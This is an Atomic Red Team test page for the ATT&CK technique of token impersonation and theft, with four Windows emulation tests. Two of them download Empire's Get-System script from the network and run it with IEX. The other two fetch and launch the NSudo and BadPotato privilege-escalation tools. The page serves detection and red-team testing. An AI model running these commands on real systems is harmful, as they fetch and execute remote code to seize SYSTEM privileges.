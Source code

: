 # T1134.001 - Access Token Manipulation: Token Impersonation/Theft
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/001)
<blockquote>Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using <code>DuplicateToken(Ex)</code>. The token can then be used with <code>ImpersonateLoggedOnUser</code> to allow the calling thread to impersonate a logged on user's security context, or with <code>SetThreadToken</code> to assign the impersonated token to a thread.

An adversary may do this when they have a specific, existing process they want to assign the new token to. For example, this may be useful for when the target user has a non-network logon session on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Named pipe client impersonation](#atomic-test-1---named-pipe-client-impersonation)

- [Atomic Test #2 - `SeDebugPrivilege` token duplication](#atomic-test-2---sedebugprivilege-token-duplication)

- [Atomic Test #3 - Launch NSudo Executable](#atomic-test-3---launch-nsudo-executable)

- [Atomic Test #4 - Bad Potato](#atomic-test-4---bad-potato)


<br/>

## Atomic Test #1 - Named pipe client impersonation
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script creates a named pipe, and a service that writes to that named pipe. When the service connects to the named pipe, the script impersonates its security context.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

Reference: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

**Supported Platforms:** Windows


**auto_generated_guid:** 90db9e27-8e7c-4c04-b602-a45927884966






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
```






<br/>
<br/>

## Atomic Test #2 - `SeDebugPrivilege` token duplication
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script uses `SeDebugPrivilege` to obtain, duplicate and impersonate the token of a another process.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

**Supported Platforms:** Windows


**auto_generated_guid:** 34f0a430-9d04-4d98-bcb5-1989f14719f0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
```






<br/>
<br/>

## Atomic Test #3 - Launch NSudo Executable
Launches the NSudo executable for a short period of time and then exits.
NSudo download observed after maldoc execution. NSudo is a system management tool for advanced users to launch programs with full privileges.

**Supported Platforms:** Windows


**auto_generated_guid:** 7be1bc0f-d8e5-4345-9333-f5f67d742cb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nsudo_path | Path to the NSudo bat file | Path | $env:TEMP&#92;NSudo_8.2_All_Components&#92;NSudo_Launcher&#92;x64&#92;NSudoLG.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-Process #{nsudo_path} -Argument "-U:T -P:E cmd"
Start-Sleep -Second 5
Stop-Process -Name "cmd" -force -erroraction silentlycontinue
```




#### Dependencies:  Run with `powershell`!
##### Description: NSudo.bat must exist in the specified path #{nsudo_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{nsudo_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile $env:TEMP\NSudo_8.2_All_Components.zip "https://github.com/M2Team/NSudo/releases/download/8.2/NSudo_8.2_All_Components.zip"
Expand-Archive -Path $env:TEMP\NSudo_8.2_All_Components.zip -DestinationPath $env:TEMP\NSudo_8.2_All_Components -Force
Rename-Item "$env:TEMP\NSudo_8.2_All_Components\NSudo Launcher" $env:TEMP\NSudo_8.2_All_Components\NSudo_Launcher
Remove-Item $env:TEMP\NSudo_8.2_All_Components.zip -Recurse -ErrorAction Ignore
```




<br/>
<br/>

## Atomic Test #4 - Bad Potato
https://github.com/BeichenDream/BadPotato
Privilege escalation using named pipe connections

**Supported Platforms:** Windows


**auto_generated_guid:** 9c6d799b-c111-4749-a42f-ec2f8cb51448






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cd $env:temp
Start-Process .\BadPotato.exe notepad.exe
Start-Sleep -Second 20
Stop-Process -Name "notepad" -force -erroraction silentlycontinue
Stop-Process -Name "BadPotato" -force -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
taskkill /f /im notepad.exe
```



#### Dependencies:  Run with `powershell`!
##### Description: BadPotato.exe must exist in the temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path $env:temp\BadPotato.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile $env:TEMP\BadPotato.exe "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1134.001/bin/BadPotato.exe?raw=true"
```




<br/>
